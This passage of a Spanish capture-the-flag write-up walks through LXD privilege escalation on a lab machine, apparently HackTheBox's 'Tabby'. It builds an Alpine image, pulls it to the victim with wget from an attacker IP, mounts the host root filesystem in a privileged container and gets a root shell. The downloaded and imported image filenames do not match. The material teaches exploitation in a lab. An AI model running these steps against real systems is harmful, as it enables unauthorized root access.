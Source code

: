 Como no podemos usar el comando `lxc` porque no está en el `path` debemos `ampliarlo`

```
ash@tabby:~/.gnupg$ export PATH=/snap/bin:$PATH
```

`Enumeramos` las `imágenes` y verificamos si una imagen de contenedor ya existe, en este caso no existe ninguna

```
ash@tabby:/home$ lxc image list
```

Como no hay contenedor `construimos` nuestra propia `imagen` en nuestro equipo

```
# git clone  https://github.com/saghul/lxd-alpine-builder.git
# cd lxd-alpine-builder
# sudo ./build-alpine
# python3 -m http.server 80
```

Nos `descargamos` la `imagen` creada en la máquina víctima e `importamos` la `imagen`

```
ash@tabby:/home$ wget http://10.10.16.23/alpine-v3.20-x86_64-20240812_2145.tar.gz
ash@tabby:/home$ lxc image import ./alpine-v3.17-x86_64-20221206_0615.tar.gz --alias testimage
ash@tabby:/home$ lxc image list
```

`Creamos` un nuevo `pool storage`

```
ash@tabby:/home$ lxd init
```

`Creamos` un nuevo `contenedor` usando la imagen

```
ash@tabby:/home$ lxc init testimage testcontainer -c security.privileged=true
```

Montamos el directorio `/` en `/mnt/root`

```
ash@tabby:/home$ lxc config device add testcontainer testdevice disk source=/ path=/mnt/root recursive=true
```

`Iniciamos` el `contenedor`

```
ash@tabby:/home$ lxc start testcontainer
```

`Obtenemos` una `consola` como el usuario `root`

```
ash@tabby:/home$ lxc exec testcontainer /bin/sh
~ # whoami
root
```

